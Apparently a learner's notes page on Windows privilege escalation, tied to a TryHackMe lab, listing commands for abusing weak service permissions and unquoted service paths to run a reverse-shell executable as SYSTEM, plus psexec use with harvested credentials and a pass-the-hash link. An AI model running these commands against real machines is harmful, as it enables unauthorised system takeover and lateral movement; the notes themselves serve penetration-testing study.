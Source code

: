 # Service Exploits
## Insecure Service Permissions
Check permissions in service, if SERVICE_CHANGE_CONFIG permission and it is run as SYSTEM
```
C:\PrivEsc\accesschk.exe /accepteula -uwcqv USER SERVICE_NAME
sc qc SERVICE_NAME -> check if service is run by SYSTEM
sc config SERVICE binpath= "\"C:\reverse.exe\""
```
## Unquoted Service Path
```
sc qc SERVICE_NAME -> check if service is run by SYSTEM and if it contains spaces in path

C:\PrivEsc\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"
copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"
```

MAKE NOTES: https://tryhackme.com/r/room/windows10privesc

# Pass The Hash
[[3.1.12 - Pass-The-Hash]]

# PrivescCheck
```
https://github.com/itm4n/PrivescCheck

Execution depends of the situation, check the github for the right one
```

# Example
```
Using psexec.py and winlogon creds
psexec.py USER@IP_ADDRESS
```